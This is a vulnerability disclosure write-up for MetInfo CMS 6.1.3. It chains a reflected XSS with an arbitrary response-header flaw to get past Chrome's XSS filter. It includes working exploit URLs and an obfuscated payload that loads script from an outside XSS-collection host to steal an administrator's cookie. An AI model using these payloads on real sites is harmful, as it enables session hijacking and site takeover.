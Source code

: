 # Metinfo latest version(6.1.3) has a reflected xss vul, with another vul which can cause arbitrary response headers  set we can bypass chrome xss filter.

> Metinfo is an powerful cms used widely in china.`https://www.metinfo.cn/`  recently I find two vuls and combine them we can bypass chrome's xss filter to affect administrators.

## vul1

firstly, there exists an reflected XSS in metinfo latest version(6.1.3),



url:`http://127.0.0.1:8888/admin/column/move.php?foldyanzheng=1&foldername=member&lang_columnerr4=<script>alert(document.cookie)</script>&metcms=1`

![](./alert1.png)
since no cookies protected with http-only we can directy use them.

why does this vul exists?

we check `/admin/column/move.php`

```php
<?php
# MetInfo Enterprise Content Management System 
# Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved. 
require_once '../login/login_check.php';
require_once 'global.func.php';
if($foldyanzheng){
	$metcms='';
	$folder_m=$db->get_one("SELECT * FROM $met_column WHERE foldername='$foldername' and lang='$lang'");
	if($folder_m)$metcms=$lang_columnerr4;
	if(!preg_match('/^[a-z0-9_-]+$/i',metdetrim($foldername)))$metcms=$lang_columnerr1;
	echo $metcms;
	die;
}
```

we only need `$folderyanzheng`>0  and` $folder_m` is not null, we can get `$lang_columnerr4` directly shown in the dom .and just in `/include/common.inc.php` there exists an register of variables that can be controlled by us：
```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
	foreach($$_request as $_key => $_value) {
		$_key{0} != '_' && $$_key = daddslashes($_value,0,0,1);
		$_M['form'][$_key] = daddslashes($_value,0,0,1);
	}
}
```

so we can controll the variable `$lang_columnerr4`.

but we know vuls like this can only affect browsers that have no xss protections. how do we affect browsers like chrome that have powerfull xss filters? see next vul. 

## vul 2

there exists an vul that enables you to set any headers in

`/include/interface/applogin.php`

```php
<?php
require_once '../common.inc.php';
$query = "UPDATE {$met_config} set value='{$apppass}' where name = 'met_apppass'";
$db->get_one($query);
header("{$serverurl}");
?>
```

in `common.inc.php` there exists an operation to register all variables which can be controlled by users;
```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
	foreach($$_request as $_key => $_value) {
		$_key{0} != '_' && $$_key = daddslashes($_value,0,0,1);
		$_M['form'][$_key] = daddslashes($_value,0,0,1);
	}
}
```

so here we can communicate this vul with vul1 to bypass chrome's xss filter,because chrome's xss filter donnot check  data from user's cookie. 

### Step1

Let administrator visit this address

`http://127.0.0.1:8888/include/interface/applogin.php?serverurl=Set-Cookie%3alang_columnerr4%3d123%253cimg%20src%3dasd%20onerror%3deval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,34,47,47,120,115,115,112,116,46,99,111,109,47,80,87,87,50,65,105,34,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59))%3E;path=/`

we can see an responce header is set。
![](./responce_headers.png)



### step2

let the administrator visit 

`http://127.0.0.1:8888/admin/column/move.php?foldyanzheng=1&foldername=member&metcms=1`

here we can see the data in user's cookie is shown in the dom
![](./dom_loaded.png)

in my xss platform(platform to recieve xss data),we can see cookie of the manager is captured.
![](./xss_back.png)



### just want an alert?

first visit

`http://127.0.0.1:8888/include/interface/applogin.php?serverurl=Set-Cookie%3alang_columnerr4%3d123%253csvg/onload%3dalert(1)%3E;path=/`

secondly
`http://127.0.0.1:8888/admin/column/move.php?foldyanzheng=1&foldername=member&metcms=1`
now you can see an alert
![](./alert.png)
